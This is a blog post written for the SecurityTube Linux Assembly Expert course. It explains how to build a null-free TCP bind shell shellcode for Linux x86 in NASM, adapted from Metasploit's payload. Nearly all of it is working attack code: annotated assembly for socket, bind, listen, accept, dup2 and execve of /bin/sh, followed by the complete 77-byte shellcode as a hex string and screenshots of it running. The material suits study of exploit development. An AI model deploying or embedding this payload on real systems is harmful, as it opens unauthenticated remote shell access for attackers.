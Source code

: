 # 1. TCP Bind Shell

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a TCP bind shell shellcode for Linux on the x86 architecture. The goal is to avoid null bytes while making the payload as small as possible.

Additionally, it should be easy to change the listening port.

## Solution

The solution is based on the [linux/x86/shell_bind_tcp](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/x86/shell_bind_tcp.rb) payload from the Metasploit Framework and written in NASM.

The listening port is defined at the top of the NASM source:

```nasm
global _start

port equ 0x5c11             ; port = 4444 (big endian)
```

An IPv4/TCP socket is created using the [socket](https://man7.org/linux/man-pages/man2/socket.2.html) socket system call. Socket system calls are invoked using the [socketcall](https://man7.org/linux/man-pages/man2/socketcall.2.html) system call:

```nasm
section .text

_start:
    ; int socketcall(int call, unsigned long *args): syscall 0x66
    ; int socket(int domain, int type, int protocol): socketcall 0x1
    ;   s = socket(AF_INET = 2, SOCK_STREAM = 1, IPPROTO_IP = 0)
    xor ebx, ebx            ; ebx = 0
    mul ebx                 ; eax = 0, edx = 0
    push ebx                ; push domain = IPPROTO_IP = 0
    inc ebx                 ; socketcall = 1
    push ebx                ; push type = SOCK_STREAM = 1
    push 0x2                ; push protocol = AF_INET = 2
    mov ecx, esp            ; set socketcall args
    mov al, 0x66            ; syscall = 102
    int 0x80                ; perform syscall
```

The port is bound to the socket on 0.0.0.0 using the [bind](https://man7.org/linux/man-pages/man2/bind.2.html) socket system call:

```nasm
    ; struct sockaddr_in { sa_family_t sin_family; in_port_t sin_port; uint32_t s_addr }
    ;   addr_in = { (WORD) AF_INET = 2, (WORD) [PORT], INADDR_ANY = 0 }
    ; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen): socketcall 0x2
    ;   bind(s, &addr_in, sizeof(sockaddr) = 16)
    pop ebx                 ; socketcall = 2
    pop esi                 ; align stack so that ecx = &addr_in
    push edx                ; push s_addr = INADDR_ANY = 0
    push word port          ; push sin_port = PORT
    push bx                 ; push sin_family = AF_INET = 2
    push 0x10               ; push addrlen = sizeof(sockaddr_in) = 16
    push ecx                ; push addr = &addr_in
    push eax                ; push sockfd = s
    mov ecx, esp            ; set socketcall args
    lea eax, [edx + 0x66]   ; syscall = 102
    int 0x80                ; perform syscall
```

The socket is marked as a listening socket using the [listen](https://man7.org/linux/man-pages/man2/listen.2.html) socket system call:

```nasm
    ; int listen(int sockfd, int backlog): socketcall 0x4
    ;   listen(s, 0)
    mov [ecx + 4], eax      ; set backlog = 0 (eax = 0 from successful bind return and sockfd already set)
    mov bl, 0x4             ; socketcall = 4
    mov al, 0x66            ; syscall = 102
    int 0x80                ; perform syscall
```

The shellcode then waits for an incoming connection using the [accept](https://man7.org/linux/man-pages/man2/accept.2.html) socket system call. Note that the *addrlen* argument is set to NULL, so the value of *addrlen* does not matter:

```nasm
    ; int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen): socketcall 0x5
    ;   client = accept(s, 0, whatever)
    inc ebx                 ; socketcall = 5 (all arguments already set)
    mov al, 0x66            ; syscall = 102 (eax = 0 from successful listen return)
    int 0x80                ; perform syscall
```

Stdin, stdout, and stderr are redirected to the new connected socket using the [dup2](https://man7.org/linux/man-pages/man2/dup.2.html) system call:

```nasm
    ; int dup2(int oldfd, int newfd): syscall 0x3f
    ;   dup2(client, 0..2)
    xchg eax, ebx           ; oldfd = client, eax = 5
    lea ecx, [edx + 0x3]    ; newfd = 3
dup_loop:
    dec ecx                 ; decrement newfd
    mov al, 0x3f            ; syscall = 63 (eax = 5 first iteration and dup2 returns stderr = 2 / stdout = 1)
    int 0x80                ; perform syscall
    jnz dup_loop            ; loop until newfd = 0
```

Finally, a shell is spawned using the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) system call. Note that the *argv* and *envp* arguments can be set to NULL when they are not used by the executed program:

```nasm
    ; int execve(const char *pathname, char *const argv[], char *const envp[]): syscall 0xb
    ;   execve("//bin/sh", 0, 0)
    pop esi                 ; put null byte on top of stack
    push 0x68732f6e         ; push "n/sh" reversed
    push 0x69622f2f         ; push "//bi" reversed
    mov ebx, esp            ; pathname = "//bin/sh" (argv and envp already set)
    mov al, 0xb             ; syscall = 11 (eax = 0 from dup2 returning stdin)
    int 0x80                ; perform syscall
```

The complete source code can be found here: [shell_bind.nasm](https://github.com/SpacePlant/slae32/blob/main/shell_bind.nasm)

## Results

The assembled shellcode is 77 bytes and contains no null bytes. The MSF version is 78 bytes, contains a null byte, and makes some assumptions about the returned file descriptors.

```sh
$ shellcode=$(for i in $(objdump -d shell_bind | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x66\x68\x11\x5c\x66\x53\x6a\x10\x51\x50\x89\xe1\x8d\x42\x66\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x8d\x4a\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x5e\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80
$ echo $shellcode | tr -cd 'x' | wc -c
77
```

The shellcode is executed successfully using the C template:

![Bind shell executed](images/shell_bind.png)

![Bind shell established](images/shell_bind_2.png)
